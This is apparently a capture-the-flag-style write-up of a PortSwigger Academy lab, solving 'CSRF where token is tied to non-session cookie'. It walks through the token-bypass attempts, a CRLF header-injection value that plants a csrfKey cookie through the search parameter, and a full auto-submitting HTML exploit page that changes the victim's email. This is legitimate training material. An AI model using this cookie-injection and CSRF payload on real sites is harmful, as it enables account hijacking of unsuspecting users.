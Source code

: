 # Lab: CSRF where token is tied to non-session cookie

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address
> Note: Login Credentials `wiener:peter` and `carlos:montoya`

- Firstly, I'll login using these credentials `wiener:peter`.
  ![1st Screenshot](./Photos/1.png)

- Then change the email of this account to `test@gmail.com`
  ![2nd Screenshot](./Photos/2.png)

- When Viewing the Request in Burp Suite, I've noticed that he users a CSRF Token and csrfkey parameter within the cookie.
  ![3rd Screenshot](./Photos/3.png)

- I've tried several ways to bypass either the csrf token or csrfkey within the cookie which are:

  - Removing the value of CSRF token and leave the parameter `&csrf=`, the response resulted in `400 Bad Request`.
  - Remove the csrf parameter and value, the response resulted in `400 Bad Request`.
  - Removing the csrf key within the cookie, the response resulted in `400 Bad Request`.

- When I change the value of the CSRF parameter, or the CSRF Cookie the response results in `400 Bad Request`.

- Therefore, CSRF Parameter and Cookie are tied together.

- And I want you deliver both a valid CSRf Parameter and a Valid CSRF Cookie to the victim.

- I have to find a point in the application to set the CSRF Cookie.

- In the home page when You search a term (e.g., `test`) the response headers include `Set-Cookie: LastSearchTerm=test;`
  ![4th Screenshot](./Photos/4.png)

- Firstly I want the victim to visit the following link to set my CSRF Cookie. `/?search=test;%0d%0aSet-Cookie:csrfkey=w22thPDqJu7RvrVY2E5QakjXANqgGEz0`

- Then Submit a form with my CSRF Parameter to change his email.

- And the crafted payload will be:

```html
<html>
  <body>
    <form
      action="https://0ac100f8044f510280221782007e0095.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="updated-email@gmail.com" />
      <input
        type="hidden"
        name="csrf"
        value="WxuquUjF4PLJw3gqlNFeeBtiwJbe5eJG"
      />
      <input type="submit" value="Submit request" />
    </form>
    <img
      src="https://0ac100f8044f510280221782007e0095.web-security-academy.net/?search=test;%0d%0aSet-Cookie:%20csrfKey=mzPZAApkgnc0WGGfvMRcnhw6DNeBIzeq%3b%20SameSite=None"
      onerror="document.forms[0].submit()"
    />
  </body>
</html>
```

- Store the payload in the exploit server then deliver exploit to victim.

- And the lab is solved successfully.
  ![5th Screenshot](./Photos/5.png)

---
